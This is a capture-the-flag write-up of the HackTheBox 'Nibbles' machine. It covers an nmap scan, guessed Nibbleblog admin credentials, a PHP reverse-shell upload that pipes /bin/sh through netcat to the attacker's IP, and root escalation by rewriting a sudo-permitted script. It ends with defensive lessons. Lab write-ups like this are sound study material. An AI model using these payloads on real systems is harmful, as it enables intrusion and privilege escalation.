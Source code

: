 # HackTheBox Nibbles Writeup

## Enumeration
The first thing I like to do when approaching one of these challenges is to enumerate the target.
We will use nmap to do this.  -A tells nmap to do a service scan so we can enumerate the services
on the target.  -Pn tells nmap not to ping the target first.

```bash
nmap -A -Pn 10.10.10.75
```

```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-29 22:36 EDT
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=6/29%OT=22%CT=1%CU=33382%PV=Y%DS=2%DC=T%G=Y%TM=5B36ECC
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=100%GCD=1%ISR=109%TI=Z%CI=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   114.11 ms 10.10.14.1
2   114.11 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.65 seconds
```

It looks like there is a web page hosted on the target.  Let's take a look at it:

![Main Page](screenshots/1_main_page.PNG)

This is not the most robust site in the world.  Sometimes, developers leave comments in the source code of a web page that may reveal useful information.  Let's take a look:

![Main Page Source](screenshots/2_main_page_source.PNG)

The comment says there is nothing interesting in the nibbleblog directory.  Let's see about that:

![Nibbleblog Main Page](screenshots/3_nibbleblog_main.PNG)

When I first saw the page, I started clicking links.  On some pages, I found some pages that could have been vulnerable
to SQL injection.  I tried a few things, but got nowhere.  I decided to try to find out more about nibbleblog.
Googling for nibbleblog leads us to the project's page on GitHub [1].
This allows us to take a look at the structure of the application.  The admin page is at /nibbleblog/admin.php:

![Nibbleblog Admin Page](screenshots/4_admin_main.PNG)

I tried SQL injection on the log in, and that did not work.  On a whim, I tried to guess very simple credentials.
Since the name of the challenge is nibbles, I guessed that was either a password or user name.  After a few guesses,
I found that the admin user is ```admin``` and the password is ```nibbles```:

![Logged in as admin](screenshots/5_admin_logged_in.PNG)

I poked around the admin interface a little bit to see if there was anything I could use to gain remote code execution.  I did not
find anything immediately, so I started Googling.  After a little bit, I ran across this page which describes a remote code execution
vulnerability in Nibbleblog if you have admin credentials [2].  It was worth a shot.  The vulnerability is that the image upload functionality does not check that the files you are uploading are
really images, so you could upload whatever you want.

I wrote a quick script that will spawn a reverse shell that will call me back:
```php
<?php
	system("mknod /tmp/p p");
	system("/bin/sh 0</tmp/p | nc 10.10.15.77 43043 1> /tmp/p");
?>
```
I had a netcat listener running on my machine at 10.10.15.77 on port 43043.  The port I chose is arbitrary.  You can choose whatever open port you want to on your box.

I used the following command to set the listener up:
```bash
# -v means to be verbose, -l tells netcat to listen, -p allows us to specify the port we want to use (43043).
nc -vlp 43043
```

In theory, when you upload the page and access it, it will execute this code and call back.

Let's take a a closer look at this code, which I got the idea for from here [3]:

```mknod /tmp/p p``` makes a named pipe (the p at the end of the command) in /tmp/p.  Named pipes allow for interprocess communication.  In this case, we are going
to use this pipe to allow netcat to communicate since I am not sure if the version of netcat on target (if it exists) supports the reverse shell option (-e).

I found out later that the version of netcat on target does not support -e, so it is good that we worked around it.

The second command spawns a shell and redirects standard input (stream 0) to our named pipe.  That is piped as input to netcat, and the output from netcat is
redirected to our named pipe.  Normally, it would go to the screen, but since we do not have a virtual terminal on the machine, we need to redirect it.  Stream 1 is standard output.

Let's upload our shell:
![Uploading shell](screenshots/6_upload_shell.PNG)

We get some warnings, but we can ignore those.  The file will be available in nibbleblog/content/private/plugins/my_image/image.php

![Warnings from shell upload](screenshots/7_upload_shell_warnings.PNG)

Let's surf to the page at http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php to the page and look at our listener:

![Successful Shell](screenshots/8_shell_succeeded.PNG)

Looks like we got a connection.  Awesome!  We are not going to get a prompt, so we can start typing commands.  Let's see what user we are, and see if that user has a home directory:

![User Flag](screenshots/9_user_flag.PNG)

What is user.txt?  Looks like the user flag.  ```b02ff32bb332deba49eeaed21152c8d8```

We are not done yet though.  We still have to get the root flag.  There is a zip file called personal.zip.  Let's see what is in it:

```bash
unzip -l personal.zip
```
![Contents of personal.zip](screenshots/10_unzip_list.PNG)

We will need to extract monitor.sh to look at it further:
```bash
![Extracting personal.zip](screenshots/11_unzip_files.PNG)
```

This is a snippet, but the full script is available from tecmint.com [4].
![Snippet of monitor.sh](screenshots/12_head_monitor.sh.PNG)

This script does not appear to give us root by itself.  Sometimes, you can escalate privileges by leveraging a misconfiguration on the system.  One thing that may be misconfigured is permissions for the sudo command.  Sudo allows users to run commands as other users (typically root) based on rules defined in the /etc/sudoers file.  Let's see if nibbler can run any commands as sudo:
```bash
sudo -l
```
[!Nibbler sudo commands](screenshots/13_sudo_list.PNG)

This shows us all of the commands that nibbler is able to run using sudo and if he needs a password to do it. The interesting rule in here is
```
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
This line says that nibbler can run /home/nibber/personal/stuff/monitor.sh as root without a password.  If we have control over the file, we can put whatever we want in it, and those commands would be executed as root.
Let's verify the permissions:

![Permissions on monitor.sh](screenshots/14_monitor_permissions.PNG)

We have write access to monitor.sh, so let's replace it with a one-liner that will give us a shell:
```bash
echo "python3 -c 'import pty; pty.spawn(\"/bin/bash\")'" > /home/nibbler/personal/stuff/monitor.sh
```
This one line of Python imports the pty library and spawns a psuedoterminal (pty) in which we will run bash.  Psuedoterminals allow us to work in a full interactive terminal which allows us to do things like tab-completion, up arrow to get history, use certain applications that need a terminal (like ssh, vim).  This is a great site to read more if you are interested [5].  The command replaces the contents of /home/nibbler/personal/stuff/monitor.sh with our one line of Python:
![New monitor.sh](screenshots/15_replace_monitor.PNG)

Let's see if it works:
```bash
sudo /home/nibber/personal/stuff/monitor.sh
```
No errors, so that is good.  Let's verify we are root:
![We have root](screenshots/16_root_permissions.PNG)

Now we need to look for the flag.  Usually it is somewhere in root's home directory:
![Looking for the flag](screenshots/17_root_dir.PNG)

Looks like we found it (root.txt):
![Found the root flag](screenshots/18_root_flag.PNG)
```b6d745c0dfb6457c55591efc898ef88c```

## Conclusion
This was a fun challenge because we got to leverage multiple vulnerabilities to reach our ultimate goal.  There were multiple issues here which allowed us to be successful:
	* Comments in HTML source that revealed areas of the site that the administrator did not intend for the public to visit:  When publishing anything to a website, internally within an organization or externally to the Internet, it is important to make sure that anything you do not want others to see is left around.  This includes directory listings left open or comments that might reveal information.
	* Use of weak credentials. Easily guessed credentials are not much of a barrier for an attacker.  Use strong passwords, especially to protect administrative interfaces.
	* Keep software up to date.  This vulnerability was fixed in a newer version of Nibbleblog.
	* Be careful about how root or Administrator permissions are delegated on your systems.  It is not a good idea to allow anything that a user can modify to run with elevated privileges.

## References
[1]: https://github.com/dignajar/nibbleblog "Nibbleblog Github Page"
[2]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html
[3]: https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
[4]: https://www.tecmint.com/linux-server-health-monitoring-script/
[5]: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
